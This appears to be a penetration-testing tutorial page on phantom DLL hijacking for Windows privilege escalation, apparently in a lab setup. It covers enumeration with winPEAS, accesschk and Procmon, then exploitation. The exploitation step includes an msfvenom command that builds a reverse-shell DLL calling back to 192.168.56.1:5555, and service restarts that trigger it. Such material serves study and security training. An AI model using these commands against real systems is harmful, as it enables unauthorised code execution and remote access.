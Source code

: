 # Phantom DLL Hijacking

## <mark style="color:red;">Detection</mark>

in this type of DLL we target a missing dll and place our own dll instead.

Use winPEAS to enumerate non-Windows services:

```
winPEASany.exe quiet servicesinfo
```

![](<../../../../.gitbook/assets/image (71).png>)

Note that the C:\Temp directory is writable and in the PATH. Start by enumerating which of these services our user has stop and start access to:

```
accesschk.exe /accepteula -uvqc user dllsvc
```

![](<../../../../.gitbook/assets/image (81).png>)

The “dllsvc” service is vulnerable to DLL Hijacking. According to the winPEAS output, the service runs the dllhijackservice.exe executable. We can confirm this manually:

```
 sc qc dllsvc
```

![](<../../../../.gitbook/assets/image (74).png>)

![](<../../../../.gitbook/assets/image (88).png>)

in a real-world scenario we would download the executable to our own windows machine of analysis.then create a new service for the binary file that we copied and give it the path of the service binary and continue to the next steps:

create a service for the binary in our own system

```
sc create binPath= c:\temp\dllhijackservice.exe type= own 
```

Run Procmon64.exe with administrator privileges. Press Ctrl+L to open the Filter menu.

Add a new filter on the Process Name matching dllhijackservice.exe

![](<../../../../.gitbook/assets/image (78).png>)

On the main screen, deselect registry activity and network activity.

![](<../../../../.gitbook/assets/image (102).png>)

Start the service:

```
net start dllsvc
```

![](<../../../../.gitbook/assets/image (80).png>)

​​Back in Procmon, note that a number of “NAME NOT FOUND” errors appear, associated with the hijackme.dll file.

![](<../../../../.gitbook/assets/image (103).png>)

At some point, Windows tries to find the file in the C:\Temp directory, which as we found earlier, is writable by our user.

## <mark style="color:red;">Exploitation</mark>

On Kali, generate a reverse shell DLL named hijackme.dll:

```
msfvenom -p windows/shell_reverse_tcp lhost=192.168.56.1 lport=5555 -f dll -o VirtualBox\ VMs/shares/hijackme.dll
```

Copy the DLL to the Windows VM and into the C:\Temp directory. Start a listener on Kali and then stop/start the service to trigger the exploit:

```
net stop dllsvc
net start dllsvc
```

![](<../../../../.gitbook/assets/image (90).png>)
